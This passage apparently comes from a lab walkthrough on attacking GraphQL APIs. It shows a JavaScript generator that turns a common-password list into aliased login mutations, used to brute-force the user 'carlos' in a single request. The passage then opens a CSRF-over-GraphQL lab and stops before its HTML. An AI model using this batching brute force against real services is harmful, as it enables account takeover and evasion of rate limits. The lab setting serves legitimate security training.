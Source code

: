     mutation login($input: LoginInput!) {
        login(input: $input) {
            token
            success
        }
    }

    {"input":{"username":"carlos","password":"123123"}}

Use this Javascript code to generate the aliases used for brute forcing:

    copy(
    `123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`
        .split(",")
        .map((element, index) =>
        `bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
            token
            success
        }`
            .replaceAll("$index", index)
            .replaceAll("$password", element)
        )
        .join("\n")
    );
    console.log("The query has been copied to your clipboard.");

Insert the clipboard inside this mutation function. It should look like this:

    mutation login {
        login(input:{password: "123456", username: "carlos"}){
            token
            success
        }
        bruteforce0:login(input:{password: "123456", username: "carlos"}) {
            token
            success
        }
        bruteforce1:login(input:{password: "password", username: "carlos"}) {
            token
            success
        }
        ...
    }

Look for index with `success:true` to found Carlos' password.

### LAB: Performing CSRF exploits over GraphQL
Notice the endpoint that the change email function is pointing to: `/graphql/v1`.When changing the `Content-Type` to `/application/x-www-form-urlencoded` the request is still accepted.
Craft this HTML to make use of the GraphQL endpoint and the `Content-Type:/application/x-www-form-urlencoded` header to change the victim's email:
